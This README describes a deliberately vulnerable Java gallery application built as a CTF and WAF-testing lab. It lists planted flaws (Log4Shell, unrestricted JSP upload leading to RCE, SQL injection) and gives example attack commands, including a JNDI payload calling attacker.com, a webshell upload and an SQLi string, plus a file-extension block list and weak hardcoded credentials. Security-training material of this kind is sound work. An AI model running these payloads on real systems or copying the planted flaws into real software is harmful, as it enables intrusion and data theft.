

# Vulnerable Web Application - CTF/Demo Environment

## 📁 Project Structure
```
dangducloc-cd3/
├── docker-compose.yml
├── README.md
├── Data/
│   ├── dockerfile
│   └── init.sql
├── Gallery/
│   ├── dockerfile
│   ├── pom.xml
│   └── src/
│       └── main/
│           ├── java/
│           │   ├── Controller/
│           │   │   ├── Index.java
│           │   │   ├── Upload.java
│           │   │   └── VelocityHelper.java
│           │   ├── Model/
│           │   │   ├── Exploit.java
│           │   │   └── Img.java
│           │   └── Utils/
│           │       ├── DB_handler.java
│           │       └── Pool.java
│           ├── resources/
│           │   └── log4j2.xml
│           └── webapp/
│               ├── linh.jsp
│               ├── imgs/
│               └── WEB-INF/
│                   ├── web.xml
│                   └── templates/
│                       ├── index.vm
│                       └── upload.vm
└── Nginx/
    ├── default.conf
    ├── Dockerfile
    ├── custom/
    │   └── REQUEST-900-EXCLUSION-RULES-BEFORE-CRS.conf
    ├── ssl/
    │   ├── cert.pem
    │   └── key.pem
    └── logs/
        ├── modsecurity/
        └── nginx/
```

## 📋 Overview

A deliberately vulnerable web application designed for security training, CTF challenges, and WAF testing.

## 🚀 Quick Start

### Prerequisites
- Docker Engine 20.10+
- Docker Compose 2.0+

### Installation
```bash
# Clone the repository
git clone <repository-url>
cd dangducloc-cd3

# Build and start all services
docker-compose up --build -d

# Verify services are running
docker-compose ps
```

### Access URLs
- **Application**: https://localhost (redirects to HTTPS)
- **HTTP Redirect**: http://localhost:80 (redirects to HTTPS)
- **Application Port**: 8080 (internal only, proxied through NGINX)
- **MySQL**: 3306 (internal only)

## 🏗️ Architecture



### Service Details

| Service | Port | Description | Image |
|---------|------|-------------|-------|
| nginx | 80/443 | Reverse proxy with ModSecurity WAF | `melp007/cd3_nginx:latest` |
| app | 8080 (internal) | Vulnerable Java web application | `melp007/cd3_app:latest` |
| mysql | 3306 (internal) | MySQL database | `melp007/cd3_mysql:latest` |

## ⚠️ Deliberate Vulnerabilities

### 1. **Log4Shell (CVE-2021-44228)**
- **Location**: Gallery application uses Log4j 2.14.1
- **File**: `Gallery/pom.xml`
- **Exploit**: JNDI injection via user-controlled input in search/logging

### 2. **Unrestricted File Upload**
- **Location**: `Gallery/src/main/java/Controller/Upload.java`
- **Vulnerability**: Allows `.jsp` file upload with malicious content
- **Upload Path**: `/upload` endpoint
- **Bypass**: Missing proper content-type validation; `.jsp` in whitelist

### 3. **SQL Injection**
- **Location**: `Gallery/src/main/java/Utils/Pool.java`
- **Vulnerability**: Unsafe search query concatenation
- **Endpoint**: `/` with `search` parameter

### 4. **Server-Side Request Forgery (SSRF)**
- **Potential**: Through improper URL handling in image processing

### 5. **Remote Code Execution (RCE)**
- **Vector**: JSP file upload + execution
- **Location**: Uploaded JSP files in `/imgs/` directory

## 🔒 Security Controls (WAF)

### ModSecurity Configuration
- **Base Image**: OWASP ModSecurity CRS:nginx-alpine
- **Paranoia Level**: 1 (adjustable via `PARANOIA` env)
- **Anomaly Threshold**: 5

### Custom Rules
Location: `Nginx/custom/REQUEST-900-EXCLUSION-RULES-BEFORE-CRS.conf`

#### Key Security Rules:
1. **File Extension Validation**: Blocks dangerous extensions (`.php`, `.jsp`, `.exe`, etc.)
2. **Image Whitelist**: Only allows `.jpg`, `.jpeg`, `.png`, `.gif`, `.webp`, `.bmp`
3. **Magic Byte Check**: Validates file content using `libmagic`
4. **Size Limit**: Maximum 10MB per file
5. **Exclusion Rules**: Disables false positives for `/upload` endpoint

### SSL/TLS Configuration
- Self-signed certificate for local development
- TLS 1.2/1.3 only
- HTTP to HTTPS redirect

## 🛠️ Development

### Building Individual Services
```bash
# Build application
docker-compose build app

# Build NGINX with WAF
docker-compose build nginx

# Build MySQL
docker-compose build mysql
```

### Database Initialization
The database is initialized with sample data from `Data/init.sql`:
- Table: `imgs` with 12 sample image records
- Auto-increment starts at 13 for new uploads

### Application Structure
```
Gallery/
├── src/main/java/
│   ├── Controller/     # Servlet controllers
│   ├── Model/         # Data models
│   └── Utils/         # Database utilities
├── src/main/webapp/
│   ├── imgs/          # Uploaded images storage
│   └── WEB-INF/       # Configuration and templates
└── pom.xml           # Maven dependencies (incl. vulnerable Log4j)
```

## 📊 Logging

### ModSecurity Logs
- Location: `Nginx/logs/modsecurity/`
- Format: JSON
- Audit logs: `audit.log`

### NGINX Logs
- Location: `Nginx/logs/nginx/`
- Access and error logs

### Application Logs
- Location: Container stdout/stderr
- File: `logs/vulnapp.log` (inside container)

## 🔧 Environment Variables

### NGINX Service
```yaml
BACKEND: http://app:8080      # Backend application URL
PARANOIA: 1                   # ModSecurity paranoia level
ANOMALY_INBOUND: 5           # Anomaly score threshold
SEC_RULE_ENGINE: On          # Enable/disable ModSecurity
```

### Application Service
```yaml
DB_URL: jdbc:mysql://mysql:3306/pentest_final
DB_USER: linh
DB_PASSWORD: linh
```

### MySQL Service
```yaml
MYSQL_DATABASE: pentest_final
MYSQL_USER: linh
MYSQL_PASSWORD: linh
MYSQL_ROOT_PASSWORD: "linh"
```

## 🧪 Testing Scenarios

### 1. Log4Shell Exploitation
```bash
# Trigger Log4Shell via search parameter
curl -k "https://localhost/?search=\${jndi:ldap://attacker.com/exploit}"
```

### 2. File Upload Bypass
```bash
# Upload JSP webshell
curl -k -X POST -F "image=@webshell.jsp" -F "customName=test" \
  https://localhost/upload
```

### 3. SQL Injection
```bash
# Basic SQLi in search
curl -k "https://localhost/?search=' OR '1'='1"
```

### 4. WAF Testing
```bash
# Test ModSecurity rules
curl -k -X POST -F "image=@test.php" https://localhost/upload
```

## 🧹 Maintenance

### Stopping Services
```bash
docker-compose down
```

### Removing All Data
```bash
docker-compose down -v
```

### Viewing Logs
```bash
# Application logs
docker-compose logs app

# NGINX/WAF logs
docker-compose logs nginx

# Database logs
docker-compose logs mysql
```

### Health Checks
```bash
# Check service status
docker-compose ps

# Check application health
curl -k https://localhost
```

## ⚠️ Important Notes

1. **FOR EDUCATIONAL USE ONLY** - This environment contains real vulnerabilities
2. **Isolate Network** - Run in isolated environment, not on production networks
3. **Legal Compliance** - Use only for authorized testing and education
4. **Regular Updates** - Keep Docker and base images updated
5. **Data Persistence** - Database data persists in Docker volumes

## 📚 References

- [OWASP ModSecurity Core Rule Set](https://coreruleset.org/)
- [Log4Shell (CVE-2021-44228)](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)

## 👥 Contributors

- **Maintainer**: Melp007
- **Repository**: dangducloc/cd3

## 📄 License
